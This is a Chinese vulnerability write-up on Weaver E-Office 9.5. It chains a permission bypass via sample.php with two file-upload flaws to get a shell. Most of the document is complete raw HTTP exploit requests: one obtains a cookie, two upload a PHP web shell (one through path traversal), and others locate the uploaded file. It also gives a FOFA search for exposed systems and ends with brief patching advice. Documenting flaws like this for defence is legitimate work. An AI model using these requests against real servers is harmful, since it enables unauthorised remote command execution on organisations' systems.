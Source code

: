 
# 泛微 E-Office sample 权限绕过 + 文件上传组合漏洞 Getshell

### 0x01 产品简介

   [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020 "   泛微")E-Office 是一款[标准化](https://so.csdn.net/so/search?q=%E6%A0%87%E5%87%86%E5%8C%96&spm=1001.2101.3001.7020)的协同 OA 办公软件，泛微协同办公产品系列成员之一，实行通用化产品设计，充分贴合企业管理需求，本着简洁易用、高效智能的原则，为企业快速打造移动化、无纸化、数字化的办公平台。

### 0x02 漏洞概述

  [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020)e-office 存在权限绕过漏洞（测试页面 sample.php），攻击者可以通过此页面获取有效 cookie 绕过权限校验，利用后台文件上传漏洞上传后门文件获取服务器控制权限。

### 0x03 影响范围

 e-office=9.5

### 0x04 复现环境

FOFA：app="泛微-EOffice"

![](assets/1701222689-01afc942202787a11da42953dd50babc.png)

### 0x05 漏洞复现 

**获取有效 cookie**

```cobol
GET /sample.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```

![](assets/1701222689-14c2d25adea452bfd458e247c7ca5c2f.png)

**文件上传 PoC-1**

```cobol
POST /inc/ext/upload/file-upload.php HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryc3kzQm4dBRhin8Dk
Cookie: 获取到的cookie LOGIN_LANG=cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

------WebKitFormBoundaryc3kzQm4dBRhin8Dk
Content-Disposition: form-data; name="userfile"; filename="1.php4"
Content-Type: image/jpeg

<?php system($_POST[cmd]);unlink(__FILE__);?>
------WebKitFormBoundaryc3kzQm4dBRhin8Dk--
```

![](assets/1701222689-6fdd55633fb5ec9e63d89d0c3f90b394.png)

 获取上传路径

```cobol
GET /general/address/view/get-images.php?alb_id=11&start=0&limit=1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Cookie: 获取到的cookie LOGIN_LANG=cn;
Accept-Encoding: gzip
```

![](assets/1701222689-d791db7adfe26e132b29b67cca56a68e.png)

验证并命令执行

![](assets/1701222689-c9edfbf6e745b4dbdc1c2a4dbf3a4b96.png) **文件上传 PoC-2**

```cobol
POST /general/system/interface/theme_set/save_image.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymzrNfz1ehkVc9A3Z
Cookie: 获取到的cookie LOGIN_LANG=cn;

------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="image_type"

../../clientTools
------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: image/jpeg

<?php system($_POST[cmd]);unlink(__FILE__);?>
------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="theme_name"

theme3
------WebKitFormBoundarymzrNfz1ehkVc9A3Z--
```

![](assets/1701222689-1fdc5a4172548ac812111d6c34208ad9.png) ![](assets/1701222689-a3170b90b0b656180e525e8ebc181505.png)

获取上传路径及文件名

```cobol
GET /general/down.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Cookie: 获取到的cookie LOGIN_LANG=cn;
Accept-Encoding: gzip
```

![](assets/1701222689-5cbac5baa0a365170092c1001237dbd7.png)

验证并命令执行

![](assets/1701222689-bae5d2f61d785c68a058718fa82f3635.png)

### 0x06 修复建议 

官方已修复该漏洞，请用户联系厂商修复漏洞：https://www.weaver.com.cn/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
